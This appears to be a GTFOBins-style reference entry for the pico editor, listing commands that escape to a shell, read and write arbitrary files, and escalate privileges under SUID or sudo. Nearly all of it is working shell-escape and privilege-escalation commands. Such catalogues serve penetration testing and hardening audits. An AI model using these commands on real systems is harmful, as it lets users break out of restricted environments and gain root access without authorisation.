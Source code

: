 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T 
    - description: If ``Unknown error`` is provided on `^T`, you can try:
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^R ^X /bin/sh
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

